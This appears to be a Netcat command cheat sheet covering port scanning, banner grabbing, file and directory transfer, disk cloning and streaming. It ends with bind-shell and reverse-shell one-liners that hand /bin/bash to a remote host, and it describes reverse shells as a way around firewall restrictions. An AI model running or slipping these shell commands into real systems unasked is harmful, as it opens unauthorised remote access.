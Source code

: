 ```yaml
---
title: Netcat
date: '2020-11-25T18:28:43.000Z'
icon: icon-netcat
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


# nc

## Getting started

### Usage

Connect to a host located anywhere

`$ nc [options] [host] [port]`

Listen for incoming connections
```shell
$ nc -lp port [host] [port]
```

### Option examples

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _\(for inbound connects\)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server

Server \(192.168.1.9\) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000
```

## Examples

### Banner grabbing

`$ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1`

or
```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 `$ nc -zvn 192.168.1.1 21-25`

Scan ports 22, 3306 and 8080
```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

`$ nc -lp 8001 -c "nc 127.0.0.1 8000"`

or
```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server \(192.168.1.9\) `$ nc -lv 8000 &lt; file.txt`

Client
```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server \(192.168.1.9\) `$ nc -lv 8000 &gt; file.txt`

Client
```shell
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server \(192.168.1.9\) `$ tar -cvf – dir\_name \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer

Server \(192.168.1.9\) `$ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt`

Client
```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server \(192.168.1.9\) `$ dd if=/dev/sda \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server \(192.168.1.9\) `$ cat video.avi \| nc -l 8000`

Client
```shelll
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server \(192.168.1.9\) `$ nc -lv 8000 -e /bin/bash`

Client
```shell
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server \(192.168.1.9\) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

